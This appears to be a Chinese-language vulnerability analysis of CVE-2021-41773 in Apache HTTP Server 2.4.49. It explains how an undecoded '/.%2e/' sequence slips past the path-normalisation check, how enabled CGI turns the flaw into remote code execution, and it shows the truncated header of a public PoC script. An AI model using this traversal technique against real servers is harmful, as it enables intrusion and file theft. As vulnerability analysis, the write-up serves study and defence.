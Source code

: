 ```c
                            ret = 0;
                        }
                    }

                    /* Move l forward to the next segment */
                    l += 2;
                    if (path[l]) {
                        l++;
                    }
                    continue;
                }
            }
        }

        path[w++] = path[l++];
    }
    path[w] = '\0';

    return ret;
}
```





### 分析

当攻击者在 URL 中使用 ***/.%2e/*** 时，第 572 行的逻辑不会将 ***%2e*** 识别为句号，此时该字符尚未被解码。但该版本Apache HTTP Servers并没有在这种情况下将整体URL进行解码并匹配目录穿越过滤，导致 **/.%2e/** 被 直接代入传递，导致目录穿越，具体如下👇



```c
/* Remove /xx/../ segments */
                if (path[l + 1] == '.' && IS_SLASH_OR_NUL(path[l + 2]))
#上面的代码错误判断了目录穿越的payload，&& 判断只有在目录.的后面跟的是/或者空的时候才会触发次规则，并且没有解URL编码的%2e传入后并不会对%2e解码进行回溯验证，也不会对整体URL进行解码匹配，而是只识别了%,2,e                    

                    
#define IS_SLASH(s) (s == '/')
#define IS_SLASH_OR_NUL(s) (s == '\0' || IS_SLASH(s))
```



然而该漏洞并不是所有情况下都能够RCE:

导致该漏洞从 目录穿越 / 敏感文件泄露 升级到RCE的关键是 ***开启了cgi配置***

至于什么是CGI，互联网上的教程很多，这里就不在赘述

在一些CGI配置文件限制扩展名不全的情况下，在 **/cgi-bin/** 目录下执行的所有文件都会被当作cgi脚本程序执行

所以出现了以下poc：

```
# Exploit Title: Apache HTTP Server 2.4.49 - Path Traversal
# Date: 10/05/2021
# Exploit Author: Lucas Souza https://lsass.io
# Vendor Homepage:  https://apache.org/
# Version: 2.4.49
# Tested on: 2.4.49
# CVE : CVE-2021-41773
# Credits: Ash Daulton and the cPanel Security Team

#!/bin/bash

if [[ $1 =3D=3D '' ]]; [[ $2 =3D=3D '' ]]; then
echo Set [TAGET-LIST.TXT] [PATH]
```